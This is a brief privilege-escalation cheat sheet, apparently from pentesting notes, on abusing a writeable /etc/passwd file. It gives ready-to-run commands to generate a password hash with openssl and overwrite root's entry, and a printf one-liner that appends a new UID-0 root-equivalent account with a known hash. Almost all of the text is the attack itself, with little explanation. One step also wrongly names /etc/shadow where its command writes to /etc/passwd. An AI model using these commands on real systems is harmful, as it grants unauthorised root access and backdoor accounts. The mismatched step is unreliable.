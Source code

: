 # Writeable /etc/passwd

#### Method 1 – Overwriting root password

```
openssl passwd -1 -salt "new" "123"
openssl passwd <newPassword>

nano /etc/passwd
```

### Method 2 – Creating a new user account

1. Copy the root user line, and paste it to the bottom of the /etc/shadow file.
2. Place a password hash that you control between the first and 2nd colon.

```
printf 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash\n' >> /etc/passwd
```
